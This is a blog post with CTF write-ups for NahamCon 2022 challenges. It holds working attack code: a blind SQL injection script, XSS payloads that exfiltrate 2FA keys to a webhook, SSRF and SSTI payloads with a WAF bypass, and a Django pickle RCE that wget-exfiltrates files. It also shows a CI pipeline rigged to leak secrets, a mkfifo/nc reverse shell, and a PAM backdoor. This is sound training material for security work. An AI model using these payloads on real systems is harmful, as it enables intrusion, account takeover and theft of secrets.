

# Overview

Well it has been a really long time since I have updated my personal blog... I have been quite busy popping shells on machines, organising CTF events and banging my head trying to solve CTF challenges.

Speaking of banging ~~(no dirty innuendo here)~~, **NahamCon CTF 2022** was an absolute **banger**! Every challenge I did was well thought out, did not have any brain cell killing nonsense that you sometimes see in other CTFs and was just a bucket full of fun!

I participated with my CTF team, **PissedEmu** (named after a glorious drink in Western Australia), and together we were able to reach **10th place against over 3000+ teams**.


Personally, I focused on the **web**, **devops** (great to see challenges about this since it is overlooked) and a **privilege escalation miscellaneous** challenges. The rest of this article I will explain my thought process and how I solved the following challenges.

### Web

- Flaskmetal Alchemist
- Two For One
- Hacker Ts
- Deafcon
- Poller

### DevOps

- Poisoned
- Gitops

### Miscellaneous

- Degradation

---

# Web

---

## Flaskmetal Alchemist

| Flag | Solves | Point Value | 
|----------------- | ------------ | -------- |
| flag{order_by_blind} | 260 | 168 |

Fullmetal Alchemist is a **Flask** web application that *conveniently* allows you to search for any metal on the periodic table. You are also provided with the application source code to review and identify any security vulnerabilities.


Looking through the source code we can see that `sqlalchemy` is used for managing the data on a `sqlite` backend database. If you didn't know, `sqlalchemy` is a powerful python module for managing SQL databases that you can use by creating models and letting `sqlalchemy` or SQL database. It can also be used for **querying** data from those models, which is generally safe except for a few scenarios...

One of the unsafe scenarios is if **user input is directly inserted into the `order_by` method**! This is because sqlalchemy will just append `ORDER BY {user_input}` to the end of the of the query filter and **does not escape the user input** (cannot use prepared statements for `ORDER BY` statements)! Therefore, if a developer does not filter user input going into the function `order_by` then it is vulnerable to **SQL injection**!

We can see the web application is vulnerable by seeing that the `index()` route just whacks user input straight into `order_by` and is vulnerable to **SQL injection** when `metals = Metal.query.filter(Metal.name.like("%{}%".format(search))).order_by(text(order))` is executed.

`src/app.py`
```python
@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "POST":
        search = ""
        order = None
        if "search" in request.form:
            search = request.form["search"]
        if "order" in request.form:
            order = request.form["order"]
        if order is None:
            metals = Metal.query.filter(Metal.name.like("%{}%".format(search)))
        else:
            metals = Metal.query.filter(
                Metal.name.like("%{}%".format(search))
            ).order_by(text(order))
        return render_template("home.html", metals=metals)
    else:
        metals = Metal.query.all()
        return render_template("home.html", metals=metals)
```

So how do we exploit the `ORDER BY` SQL injection vulnerability? It is not as simple as appending `AND`, `OR`, `SELECT`, etc since after the `ORDER BY` clause these clauses will cause an error to be returned. However, **we can execute a different query and use the result of that query to change the result of the original query and construct a blind SQL injection attack**!

It is now time to introduce you all to the most OP `sqlite` function for performing blind `sqlite` injection attacks.

**`instr`**

Man I have abused this `sqlite` function so hard in several CTFs, getting unintended blind SQL injection solutions, since most challenge creators forget about it. 

`instr(column, 'some string')` works by returning `1` if the provided string is in the column value and `0` otherwise. You can use this to exfiltrate a flag from a column character by character, looking for results where you find the next character in a flag. For an example, `instr(flag, 'flag{a')` will return `1` if the next character in the flag is `a`, otherwise it returns `0`.

Knowing how `instr` functions, and the flag is located in the table `flag` in the column `flag` I constructed the following blind SQL injection payload.

```sql
1 LIMIT 0, 1|1000*(SELECT instr(flag, '{chars}') FROM flag)
```

How this works is when I find the next character in the flag, the upper `LIMIT` will by `1001` and will dump all of the metals in the database. Otherwise, when I have not found the next character in the flag then the upper limit will only be `1` since `1000*0=0` (in case you skipped maths in highschool). This causes a very significant difference in the content length in the response that I can easily check to see if I found the correct next flag!

Putting it all together, below is the dirty solution code that I wrote.

```python
import requests, threading, queue, string
import urllib.parse as url_parse

QUERY = "1 LIMIT 0, 1|1000*(SELECT instr(flag, '{chars}') FROM flag)"
THREADS = 20
TARGET = "<URL TO YOUR CHALLENGE INSTANCE>"

PREFIX = "flag{"
CHARS = "_" + string.ascii_lowercase + string.digits + string.ascii_uppercase + "}"

q = queue.Queue()
result_q = queue.Queue()

def worker():
    while True:
        chars = q.get()[0]
        if chars == None:
            break
        query = QUERY.format(
            chars=chars
        )
        r = requests.post(TARGET,data={"search":"","order":query})

        if len(r.content) > 3480:
            result_q.put((chars,))
    
        q.task_done()


if __name__ == "__main__":
    for c in CHARS:
        q.put((PREFIX+c,))

    threads = [
        threading.Thread(target=worker, daemon=True)
            for _t in range(THREADS)
    ]

    t: threading.Thread
    [t.start() for t in threads]

    while True:
        found_chars: str = result_q.get()[0]
        print("FOUND CHARS:", found_chars)

        for c in CHARS:
            q.put((found_chars+c,))

        result_q.task_done()
```

Executing the code above will leak the flag character by character as shown below.


---

## Two For One

| Flag | Solves | Point Value | 
|----------------- | ------------ | -------- |
| flag{96710ea6be916326f96de003c1cc97cb} | 76 | 473 |

Two For One was a really fun challenge that demonstrates the impact that a single vulnerability on a website can cause! Going to website we see that you need to sign in to access the Fort Knox service.



So I created an account and saw that there was a **feedback** feature on the **settings page** to provide *constructive* feedback about the website. I thought my feedback was really *constructive* to see if I can inject HTML by providing an **image of my webhook** (I use [this website for my webhooks during CTFs](https://webhook.site/))!


Noice I can inject some HTML code, so I can probably execute some **inline Javascript and exploit a XSS vulnerability** (no Content Security Policy to stop me from doing that)! 

However, I could not simply exfiltrate my victims session cookie since the site sets the cookie as **HttpOnly**... I will need to use other features on the website to be able to takeover the victim's account. Fortunately on the settings page, we could **reset the 2FA key** and **change passwords and only needing the 2FA one time password (OTP)**! This means that the attack methodology to take over the account is:

1. Reset the victim's 2FA key and exfiltrate the new key.
2. Using the OTP from step 1, change the password for the victim's account and login as them.

To do this, I used the Javascript function `fetch` for sending exfiltrated data to my web hook again. My first payload resets the victim's 2FA and sends the response to my webhook I can save the OTP key on my 2FA authenticator app.

```html
<script>fetch("/reset2fa",{method:'post'}).then(r => r.text()).then((d) => {fetch("https://webhook.site/c6db1a4c-adad-4d53-b47e-3eee94940202?otp="+btoa(d))});</script>
```


Noice, now I have the new OTP key for the **admin** account! For generating the QR code to scan with my authenticator app, I was lazy and just used the `QRious` javascript class that was already on the website.


*Noice noice noice*

Now all I needed to do was reset the admin's password and login. Using the OTP password I could do this by using the following payload which will change the `admin` password to `getyaaccounttakenoverlol`.

```html
<script>fetch("/reset_password",{method:'post',headers:{'Content-Type':'application/json'},body:JSON.stringify({"password":"getyaaccounttakenoverlol","password2":"getyaaccounttakenoverlol","otp":"<PUT OTP HERE>"})});</script>
```

After waiting until the payload has been executed, I was able to login to the `admin` account and view the secret flag!


---

## Hacker Ts

| Flag | Solves | Point Value | 
|----------------- | ------------ | -------- |
| flag{461e2452088eb397b6138a5934af6231} | 127 | 422 |

This challenge is about a pretty cool Hacker t-shirt page where you can make your own custom t-shirt with a bash command on it. Bummer they aren't selling any shirts...


There was also an admin page at `/admin`, **which was only accessible by `localhost**! Hmmm, I wonder if the T-Shirt page is vulnerable to **Server-Side Request Forgery (SSRF)**.

One method to check if it is vulnerable to SSRF is by seeing if you can execute Javascript code when the image of the t-shirt is generated. The payload below should overwrite the contents the document and would show on the generated image.

```html
<script>document.write("noice nearly SSRF!");</script>
```

The first input to test would be the `text` GET parameter in the URL and visiting the page below with the above payload shows that we can execute Javascript code!

`/exploit?text=<script>document.write("noice nearly SSRF!");</script>&color=%2324d600`


*noice*

Now the next thing I needed to figure out was how to exfiltrate the contents of the admin page. Ideally, I would use `fetch` but for the worst case scenarios I use `XMLHttpRequest` if `fetch` unable. To test which method works, I tried both of them to send a request to my webhook using the following payloads for `fetch` and `XMLHttpRequest` respectively.

**Testing `fetch`**
```html
<script>fetch("https://webhook.site/c6db1a4c-adad-4d53-b47e-3eee94940202?type=fetch");</script>
```

**Testing `XMLHttpRequest`**
```html
<script>x=new XMLHttpRequest();x.open('GET','https://webhook.site/c6db1a4c-adad-4d53-b47e-3eee94940202?type=ohgoditsxmlhttprequest');x.send()</script>
```

Unfortunately, only `XMLHttpRequest` worked...


Oh well, at least we can use the `onload` function so when the `XMLHttpRequest` has loaded the page I could send the full page contents as `base64` text to my webhook using the following payload.

```html
<script>x=new XMLHttpRequest();x.onload=function(){y=new XMLHttpRequest();y.open('GET','https://webhook.site/c6db1a4c-adad-4d53-b47e-3eee94940202?yeet'+btoa(x.responseText));y.send()};x.open('GET','http://localhost:5000/admin');x.send();</script>
```


**WAIT WHAT???**

**Why on earth is my payload breaking?!**

I spent a good half an hour trying to figure out why my payload was not working. Then it finally clicked for me and realised I am a big doofus.

The issue with the above payload is the following part of the payload.

```js
y.open('GET','https://webhook.site/c6db1a4c-adad-4d53-b47e-3eee94940202?yeet'+btoa(x.responseText))
```

The character `+` before the `btoa` can also be the URL encoding for a space (`' '`), which was exactly what was happening and breaking my payloads syntax. URL encoding the `+` to `%2B` fixes the problem and the following payload works!

```
<script>x=new XMLHttpRequest();x.onload=function(){y=new XMLHttpRequest();y.open('GET','https://webhook.site/c6db1a4c-adad-4d53-b47e-3eee94940202?yeet'%2Bbtoa(x.responseText));y.send()};x.open('GET','http://localhost:5000/admin');x.send();</script>
```


*noice noice*

Now all I needed to do was decode the base64 and grab the flag! I used [CyberChef](https://gchq.github.io/CyberChef/) since the text was in a URL safe format and I was lazy.


---

## Deafcon

| Flag | Solves | Point Value | 
|----------------- | ------------ | -------- |
| flag{001a305ac5ab4b4ea995e5719ab10104} | 45 | 491 |

Oooo noice I can finally buy get tickets for Deafcon for free! Oh wait I can't read and it isn't for Defcon...


Oh well, let me just sign up with my personal email `{{7*7}}@yeet.com` (I don't know why but I had a **Server-Side Template Injection (SSTI)** itch when I first saw this challenge for some unknown reason).


*heck ye*

I initally thought this would be an easy challenge and I can go straight to **Remote Code Execution** with the following payload as an email. I got the [payload from here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md).

```
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read()}}@yeet.com
```


*Urgh*

I felt so close to getting the flag... I could see that I can execute `popen` if only I could only put in `()` without being caught by the web application filter (WAF).

```
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen}}@yeet.com
```


Despite my super fast progress starting this challenge, I got stumped at this point for **hours**. Until I decided to test what happens if I put **special unicode characters 𝕃ⅇ𝙤𝓃ⅈ𝔰𝔥𝙖𝓃** into the email.


As you can see above, the string `𝕃ⅇ𝙤𝓃ⅈ𝔰𝔥𝙖𝓃` was **normalised to Leonishan**! This means I might be able to bypass the WAF by finding alternative unicode characters for `()`. This is known as an **unicode normalisation attack**!

Reading [this great blog](https://jlajara.gitlab.io/web/2020/02/19/Bypass_WAF_Unicode.html) about bypassing WAFs using unicode normalization attacks, I found that I could use the characters `⁽⁾` and see if it bypassed the WAF.

Testing it with the following payload shows that I have got it!

```
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen⁽'id'⁾.read⁽⁾}}@yeet.com
```


*ye ye ye*

Now I just need to find a way to execute commands with spaces since the **WAF also blocks emails with spaces in it**. The easiest way I used was having a seperate `GET` parameter called `cmd` that I could retrieve by using `request.args.cmd`.

**Full payload**
```
/ticket?name=yeet&email={{self._TemplateReference__context.cycler.__init__.__globals__.os.popen⁽request.args.cmd⁾.read⁽⁾}}@yeet.com&cmd=cat flag.txt
```


---

## Poller

| Flag | Solves | Point Value | 
|----------------- | ------------ | -------- |
| flag{001a305ac5ab4b4ea995e5719ab10104} | 36 | 495 |

I am not going to lie, I tripped up a few times doing this challenge. Fortunately I had a team mate that was noticing the little details that I missed that helped me solve the challenge.

Poller is website specifically for the infosec community to ask and answer questions.


At first I thought this was going to be another SQL injection challenge, since the website crashes and responds with a `500` status code if you modify choice ID for a question to an invalid one.


Then I noticed that the `sessionid` token that is assigned is a *really weird one* that I could not immediately recognise. It was at this point, one of my team mates pointed out something very important that I overlooked.


Looking at the [source code](https://github.com/congon4tor/poller) I could immediately tell it was a **Django** website. I could also see why the session token is *whack*, because the site was using a **`PickleSerializer`** for some horrible reason for serializing the sessions...

**[https://github.com/congon4tor/poller/blob/main/poller/poller/settings.py](https://github.com/congon4tor/poller/blob/main/poller/poller/settings.py)**


Now if you know anything about `pickle` and mixing it with inputs that users can manipulate, **it is a horrible idea**! This is because when `pickle` deserializes a string, you can deseralize it to an **arbtrary python object running custom code**! This means, if I can modify my session token with a **Pickle Deserialization payload** then I would get **RCE**!

However, in order to do this on Django I would need to know the **`SECRET_KEY`** to forge my malicious session token. I had a *quick glimpse at the previous commits* (this would bite my butt later), then decided to see if I can find another vulnerability I could exploit on the website. 

I saw the the Django app also had `DEBUG` mode set to True, which is known for leaking sensitive information and **should be never used in an environment exposed on the internet**. However, I realised that this was not the method since I have made the website crash earlier and it did not show me any of the juicy information I wanted...

I then tried looking into other things such as decoding the session token to see if any sensitive information is leaked that way. The following code can be used to decode a Django `PickleSerialized` token.

**`depickler.py`**
```python
import pickle
import base64, zlib

TOKEN = ".eJxNjDsKwkAURbWwFMFVaDPMNy-l2LuG8Oa9GeOHBPIpBRcw5bgOt6iiQm55zuHeF4_n7Ltb3qRlheNQV2MfuurEOc1NTusJ80iX0LzFls_YHFtBbTN0Jy8-ifjZXhxaDtf9v11NDmrs65x2qgRTKJKWoADHDoL3OloVWYEMkZCwYI4E2pQlWKektqw1OkUmQpR5FC_xSj8w:1nkMcd:K4s7fhjnjSn2ix1AIyVKOg728TpKEIO5C0Te4PBIddE"

def b64_decode(s):
    pad = b"=" * (len(s) % 4)
    return base64.urlsafe_b64decode(s + pad)

value, sig = token.rsplit(':', 1)

base64d = value.encode()

decompress = base64d[:1] == b"."
if decompress:
    base64d = base64d[1:]
data = b64_decode(base64d)
if decompress:
    data = zlib.decompress(data)

print(pickle.loads(data))
```

However, I did not find anything besides the standard attributes in Django tokens...

Fortunately, my guardian angel saved me once again and decided to have a proper look at the commits in the repository.


Turns out I was a big monke for only glimpsing at the previous commits, because the new key was accidently leaked when the *developer* tried to copy the `.env` file...


Well I finally figured out what the `SECRET_KEY` so I could forge my RCE payload!

I based my approach from [this CTF writeup from back in 2014](https://systemoverlord.com/2014/04/14/plaidctf-2014-reekeeeee/), removing the `python 2.*` shenanigans.

**`pickler.py`**
```python
import os
from django.core import signing
from django.contrib.sessions.serializers import PickleSerializer
import os

SECRET_KEY = "77m6p#v&(wk_s2+n5na-bqe!m)^zu)9typ#0c&@qd%8o6!"

class Exploit():
    def __reduce__(self):
        return (os.system, ("""wget https://webhook.site/c6db1a4c-adad-4d53-b47e-3eee94940202?o=$(cat flag.txt|base64 -w0)""",))

print(signing.dumps(
    Exploit(),
    key=SECRET_KEY,
    salt='django.contrib.sessions.backends.signed_cookies',
    serializer=PickleSerializer
    )
)
```

Now all I had to do was change my `sessionid` cookie to the payload and receive the flag being sent to my webhook!


---

# Devops

---

## Poisoned

| Flag | Solves | Point Value | 
|----------------- | ------------ | -------- |
| flag{0ee4a0101bb992911c2c56e17d9b86cd} | 82 | 468 |

For this challenge, I had access to a GiTea and Drone CI instance using the leaked credentials `developer:2!W4S5J$6e`. The goal of this challenge was to find a way to leak the secret `flag` variable on the git repository `JustHacking/poisoned`.


Checking `.drone.yml` I can see that the flag is shown using `echo` but Drone CI redacts all secret variable values from its output. However, if I could modify `.drone.yml` I could exfiltrate the flag by sending the flag to my webhook.

I realised that I could **fork the repository**, modify `.drone.yml` then **create a pull request** to trigger my payload and get the flag!

**`.drone.yml`**
```yml
---
kind: pipeline
type: exec
name: test pipeline non-master

platform:
  os: linux
  arch: amd64

steps:
  - name: non-master
    commands:
      - echo "Running from the $DRONE_BRANCH branch"
    environment:
      FLAG:
        from_secret: flag
trigger:
  branch:
    exclude:
      - master

---
kind: pipeline
type: exec
name: test pipeline master

platform:
  os: linux
  arch: amd64

steps:
  - name: master
    commands:
      - echo "Running from the $DRONE_BRANCH branch"
      - echo "Flag -> $FLAG"
      - wget "https://webhook.site/c6db1a4c-adad-4d53-b47e-3eee94940202/?flag=$FLAG"
    environment:
      FLAG:
        from_secret: flag
trigger:
  branch:
    - master

```


---

## Gitops

| Flag | Solves | Point Value | 
|----------------- | ------------ | -------- |
| flag{9e3dd10bb90e1ad16676470cabb20858} | 31 | 496 |

Once again we have access to a GiTea and Drone CI instance with the leaked credentials `developer:2!W4S5J$6e`. However, this time the goal for the challenge is to execute code on a website that has **continuous deployment** setup on.


Since the website is running PHP, if I could just push a PHP webshell to the `master` branch then I could execute code on the target website.

However, I could not directly push to the `master` branch and the pull requests have been configured to require an alternative approver to approve the changes... damn...


However, the repository has **continuous integration** setup using Drone CI. Since the Drone CI instance needs to have access to the `git` repository it **needs to have `git` credentials that I could steal**! Using those `git` credentials I could self-approve the pull request and throw *software development lifecycle* practices out of the window!

Originally I popped a reverse shell by modifying the `.drone.yml` file to the one below.

**`.drone.yml`**
```yml
---
kind: pipeline
type: exec
name: default

platform:
  os: linux
  arch: amd64

steps:
  - name: linting
    commands:
      - rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR IP> <YOUR PORT> >/tmp/f
```

However, due to laziness doing this writeup and not bothering to turn on my attack infra I will just tell you the juicy details. When you check the `$HOME` directory on the Drone CI instance, you can see the `git` credentials in the file `$HOME/.netrc`. Below I just used the `wget` to exfiltrate the contents of `$HOME/.netrc` as `base64` encoded text.


Decoding the base64 text reveals that the `git` credentials are **`droneci:t4K0@s!qSF`**!

*noice*

So to finally push my `webshell.php` to the `master` branch I just needed to login as **droneci** and approve the changes then merge to `master`! I also need to make sure that all of the **continuous integration** checks pass so I can successful push my webshell!


Once everything does, I had a nice webshell on the website! My personal favourite is the [WhiteWinterWolf PHP Webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)!


---

# Miscellaneous

---

## Degradation

| Flag | Solves | Point Value | 
|----------------- | ------------ | -------- |
| flag{2d39ef6b9bc80c74405c443fc83c5772} | 22 | 498 |

So this challenge is a privilege escalation challenge to retrieve a flag from the `root` directory.

After SSHing into the box, I did the standard checks to see if I can exploit an existing program for privilege escalation (eg. `sudo`, sticky bit, crontab, running processes, etc). Nothing was useful until I check what files and folders the `user` has access to.


```
/usr/lib/x86_64-linux-gnu/security
```

*That is so sus*

Why is it bad for users to have file write on the `/usr/lib/x86_64-linux-gnu/security` folder? 

**It is because it is were the Pluggable Authentication Modules (PAM) libraries are stored!**

This means I could overwrite `pam_unix.so` which is the library for authenticating users on Unix and add a backdoor password so I can log in as the `root` user!

There is an actually a tool for doing [this located here](https://github.com/zephrax/linux-pam-backdoor). How this `pam_unix.so` backdoor works by patches the original source code with another password that you provide that it checks first before trying to authenticate the user with their original password. It then compiles the new `pam_unix.so` that you replace with the `/usr/lib/x86_64-linux-gnu/security/pam_unix.so` on the challenge instance.

I found that version 1.2.0 worked with creating the backdoor `pam_unix.so` and below I show how copied the `pam_unix.so` to the challenge instance and was able to login as `root` (including me goofing a little).


---

# Conclusion

NahamCon CTF 2022 has been my personal favourite CTF this year (so far)! Every challenge that I attempted was a tonne of fun and there was no annoying fluff that I see in most other CTF events.

**A huge congratulations and thank you for all of the challenge creators and organisers for running a brilliant CTF event!**